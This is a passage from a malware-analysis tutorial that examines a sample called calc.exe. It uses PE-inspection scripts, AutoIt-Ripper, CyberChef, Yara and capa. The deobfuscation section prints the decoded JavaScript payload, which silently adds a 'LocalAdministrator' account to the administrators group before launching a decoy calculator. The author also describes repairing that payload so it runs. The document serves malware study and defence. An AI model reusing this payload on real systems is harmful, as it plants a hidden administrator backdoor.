The following python script extracts the section details.

```python
import pefile

pe = pefile.PE("calc.exe")

print('-' * 86)
print("Name".center(20), '|', "VirtualAddress".center(20), '|', "Misc_VirtualSize".center(20), '|', "SizeOfRawData".center(20))
print('-' * 86)

for each in pe.sections:
    print(str(each.Name, 'utf-8').center(20), '|', str(each.VirtualAddress).center(20), '|', str(each.Misc_VirtualSize).center(20), '|', str(each.SizeOfRawData).center(20))

print('-' * 86)
```

Update the file path and save the script.


Now run the script. The results of the above script is shown in the following image.


### Examining the Compilation Timestamp

Checking the compilation timestamp of binary helps to understand when the malware was created/compiled.

#### Using pestudio

In **pestudio** you can find the compilation timestamp under the summary section, which you can get by clicking on the file name on the sidebar as shown in the following image.


#### Using PE-Bear

In **PE-Bear** you can find the timestamp under the `File Hdr` tab as shown in the below image.


#### Using Python

The following python script extracts the timestamp from the given binary.

```python
from time import localtime, strftime
import pefile

pe = pefile.PE("calc.exe")

print(strftime('%Y-%m-%d %H:%M:%S', localtime(pe.FILE_HEADER.TimeDateStamp)))
```

Update the file path and save the script.


The above python script has successfully extracted the timestamp from the `calc.exe` as shown in the following image.


### Examining entry point and subsystem

In a Portable Executable (PE) binary, AddressOfEntryPoint is a field located in the Optional Header of the PE file. It specifies the relative virtual address (RVA) of the entry point of the executable or DLL. The entry point is the starting address of the program’s code, where the Windows loader begins execution when the program is loaded into memory. For executable files, this is the starting address of the program’s main function. For device drivers, this is the address of the initialization function.

The [Windows Subsystem](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#windows-subsystem) is an integer value that identifies the target subsystem for the executable file. This field indicates the type of environment in which the executable is intended to run.

#### Using pestudio

You can find the entry point and subsystem of a binary in the summary section of **pestudio** as shown in the following image.


#### Using PE-Bear

In **PE-Bear** the entry point and subsystem of a binary can be found under the `Optional Hdr` as shown in the below image.


#### Using Python

The following python script extracts the address of the entry point and the subsystem value with its equivalent description.

```python
import pefile

pe = pefile.PE(".\\calc.exe")

if hasattr(pe, 'OPTIONAL_HEADER'):

    print(f"Address of Entry Point: {pe.OPTIONAL_HEADER.AddressOfEntryPoint}")

    subsystem = pe.OPTIONAL_HEADER.Subsystem

    if subsystem == 0:
        print(f"Subsystem: {subsystem} -> An unknown subsystem")
    elif subsystem == 1:
        print(f"Subsystem: {subsystem} -> Device drivers and native Windows processes")
    elif subsystem == 2:
        print(f"Subsystem: {subsystem} -> The Windows graphical user interface (GUI) subsystem")
    elif subsystem == 3:
        print(f"Subsystem: {subsystem} -> The Windows character subsystem")
    elif subsystem == 5:
        print(f"Subsystem: {subsystem} -> The OS/2 character subsystem")
    elif subsystem == 7:
        print(f"Subsystem: {subsystem} -> The Posix character subsystem")
    elif subsystem == 8:
        print(f"Subsystem: {subsystem} -> Native Win9x driver")
    elif subsystem == 9:
        print(f"Subsystem: {subsystem} -> Windows CE")
    elif subsystem == 10:
        print(f"Subsystem: {subsystem} -> An Extensible Firmware Interface (EFI) application")
    elif subsystem == 11:
        print(f"Subsystem: {subsystem} -> An EFI driver with boot services")
    elif subsystem == 12:
        print(f"Subsystem: {subsystem} -> An EFI driver with run-time services")
    elif subsystem == 13:
        print(f"Subsystem: {subsystem} -> An EFI ROM image")
    elif subsystem == 14:
        print(f"Subsystem: {subsystem} -> XBOX")
    elif subsystem == 16:
        print(f"Subsystem: {subsystem} -> Windows boot application")
    else:
        print("Unknown subsystem")
```

The above python script has extracted the entry point address and the subsystem value with its description as shown in the following image.


### Examining overlays

An overlay in a Portable Executable (PE) file refers to additional data appended to the end of the file, beyond the executable code and sections defined by the PE header. This data can be important, such as setup packages, Authenticode signatures, or overlays for AutoIt scripts.

We have seen some tools like **DiE** identified that the `calc.exe` has a [AutoIt script](https://www.autoitscript.com/site/) attached is present in the overlay. In this section we will discuss about how to find more about it using `pestudio` and `PE-Bear`. Also we will see how to extract the [AutoIt script](https://www.autoitscript.com/site/).

#### Using pestudio

You can find details about overlay under the `overlay` section as shown in the following image.


#### Using PE-Bear

In PE-Bear you can find overlay under the `Resources` tab as shown in the following image.


#### Extracting an AutoIt script from overlay

To extract the AutoIt script using the [AutoIt-Ripper](https://github.com/nazywam/AutoIt-Ripper) tool. You can install it using `pip`. The installation command is as follows.

```powershell
python3 -m pip install autoit-ripper
```



Once installed, run the following command to extract the AutoIt script from the `calc.exe` file.

```powershell
autoit-ripper.exe .\calc.exe output_dir
```

The `auto-ripper` tool has extracted the AutoIt script successfully and stored in under the output directory as shown in the following image.



Let's examine the extracted AutoIt script. The script contains a long string as shown in the following image. It looks like a `base64` encode string.



### Code Deobfuscation

In this section we will try to decode the `base64` string that we found in the last section. I will be using [CyberChef](https://gchq.github.io/CyberChef/) to decode the `base64` string. The CyberChef recipe is as follows.

```
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Microsoft_Script_Decoder()JavaScript_Beautify('%5C%5Ct','Auto',true,true)
```

By using the above recipe, we were successfully able to decode the string. The decoded output is a Javascript code as shown in the following image.


Here is the Javascript that is shown in the above image.

```javascript
function a(b) {
  var c = "",
    d = b.split("\n");
  for (var e = 0; e < d.length; e++) {
    var f = d[e].replace(/^\s+|\s+$/g, "");
    if (f.indexOf("begin") === 0 || f.indexOf("end") === 0 || f === "")
      continue;
    var g = (f.charCodeAt(0) - 32) & 63;
    for (var h = 1; h < f.length; h += 4) {
      if (h + 3 >= f.length) break;
      var i = (f.charCodeAt(h) - 32) & 63,
        j = (f.charCodeAt(h + 1) - 32) & 63,
        k = (f.charCodeAt(h + 2) - 32) & 63,
        l = (f.charCodeAt(h + 3) - 32) & 63;
      c += String.fromCharCode((i << 2) | (j >> 4));
      if (h + 2 < f.length - 1)
        c += String.fromCharCode(((j & 15) << 4) | (k >> 2));
      if (h + 3 < f.length - 1) c += String.fromCharCode(((k & 3) << 6) | l);
    }
  }
  return c.substring(0, g);
}
var m =
  "begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";
var n = a(m);
var o = [
  "net user LocalAdministrator " + n + " /add",
  "net localgroup administrators LocalAdministrator /add",
  "calc.exe",
];
var p = new ActiveXObject("WScript.Shell");
for (var q = 0; q < o.length - 1; q++) {
  p.Run(o[q], 0, false);
}
p.Run(o[2], 1, false);
```

I tried running the above Javascript code in a [Online Javascript](https://www.programiz.com/javascript/online-compiler/) comipler. But the code failed as shown in the below image.



There are a few issues in the decoded Javascript code. Got it fixed with the help of ChatGPT. The script ran successfully as shown in the following image.


## Yara Analysis

[Yara](https://yara.readthedocs.io/en/stable/index.html) is a tool aimed at (but not limited to) helping malware researchers to identify and classify malware samples. You can find the installation documentation for Yara [here](https://yara.readthedocs.io/en/stable/gettingstarted.html). The syntax for `yara` command is as follows.

```powershell
yara.exe <rule_file> <FILE | DIR | PID>
```

You can find a lot of yara rules [here](https://github.com/Yara-Rules/rules/). The following image shows the output of the yara tool for some yara rules for the `calc.exe` binary.


From the above image we can infer that the `calc.exe` has abilities to take screenshots, interact with windows registry and is packed with upx and more. But its also annoying to choose each script each time and execute it separately. So I have created the following python script which will loop through all the yara rules in the given directory, execute the `yara` command for each rule and writes the output to a text file.

```python
import os
import subprocess

# Define the directory to process
directory_path = r"C:\Users\IronMan\Desktop\Tools\Yara\rules-master"

# Define the file extension to filter by (e.g., '.txt')
file_extension = ".yar"

# Output log file
output_log = r".\yara_scan_output.txt"

# Check if the directory exists
if not os.path.exists(directory_path):
    print(f"The directory {directory_path} does not exist.")
    exit()

# Ensure the output log file exists and is empty initially
with open(output_log, 'w') as f:
    f.write("")

# Define the command to execute on each file
def process_file(file_path):
    print(f"Processing file: {file_path}")
    # Replace 'echo' with your desired command
    # In Windows, 'echo' will print the file path
    result = subprocess.run(['cmd', '/c', 'yara64', file_path, '.\calc.exe'], capture_output=True, text=True)
    output = result.stdout.strip()

    # Append the filename and command output to the log file
    if output:
        with open(output_log, 'a') as log_file:
            log_file.write(f"Filename: {file_path}\n")
            log_file.write(f"Output:\n{output}\n\n")

# Walk through the files in the directory
for root, _, files in os.walk(directory_path):
    for file in files:
        # Filter by file extension
        if file.endswith(file_extension):
            file_path = os.path.join(root, file)
            process_file(file_path)

print(f"All matching files have been processed. Output saved to {output_log}.")
```

Update the rules directory and run the script. The script is processing each rule as shown in the following image.


The script ran successfully and have written all the output to a text file as shown in the image below.


Let's take a look at the output file. The first few yara rules has detected that the files the abilites to take screenshots, interact with registries, is packed with upx and more.


And some of them identified signatures of keylogger and anti debug features as shown in the following image.


## Capa Analysis

[capa](https://github.com/mandiant/capa/) detects capabilities in executable files. You run it against a PE, ELF, .NET module, shellcode file, or a sandbox report and it tells you what it thinks the program can do. For example, it might suggest that the file is a backdoor, is capable of installing services, or relies on HTTP to communicate. You can find the installation instructions [here](https://github.com/mandiant/capa/?tab=readme-ov-file#download-and-usage). The syntax for `capa` command is as follows.

```powershell
capa -r <rules_directory> -s <signatures_directory> <malicious_executable_file>
```

Let's try `capa` on `calc.exe`. `capa` has detected that the binary is packed.


Now let's try `capa` on `unpacked_calc.exe`. `capa` has detected that the binary is compiled with AutoIt.

